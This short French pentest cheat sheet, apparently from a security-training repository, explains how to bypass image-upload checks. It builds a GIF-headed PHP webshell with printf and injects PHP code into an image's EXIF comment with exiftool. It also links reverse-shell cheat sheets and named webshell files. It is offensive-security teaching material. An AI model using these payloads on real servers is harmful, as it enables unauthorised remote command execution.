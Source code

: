






## File upload Webshell : Gif

Un fichier gif est identifié par ses premiers octets qui ont la valeur : GIF89a;  <br/>
Pour générer un fichier qui sera identifié comme ayant une entête gif valide:<br/>
```
printf &quot;GIF89a;&lt?php system('id'); ?>&quot; > webshell.gif
```

Ce fichier sera reconnu comme un fichier gif
```
$ file webshell.gif 
webshell.gif: GIF image data
```








## File upload Webshell : Exif datas

Un fichier image contient de nombreuses informations : date de prise de vue, localisation, type d'appareil photo...<br/>
Nous pouvons injecter du code php dans ces données.
```
exiftool -Comment&equals;'&lt?php system('id'); ?>' webshell.jpg
```








## References: PayloadAllTheThings et PentestMonkey

A lire pour en savoir plus:<br/>
Liste de webshells
```
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
```

Webshell en pure php: <a href=php-reverse-shell.php.txt>php-reverse-shell.php</a>
```
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
```

Yop Webshell: <a href=yopwebshell.php.txt>yopwebshell.php</a><br/>
Yolo Webshell: <a href=yolowebshell.php.txt>yolowebshell.php</a>

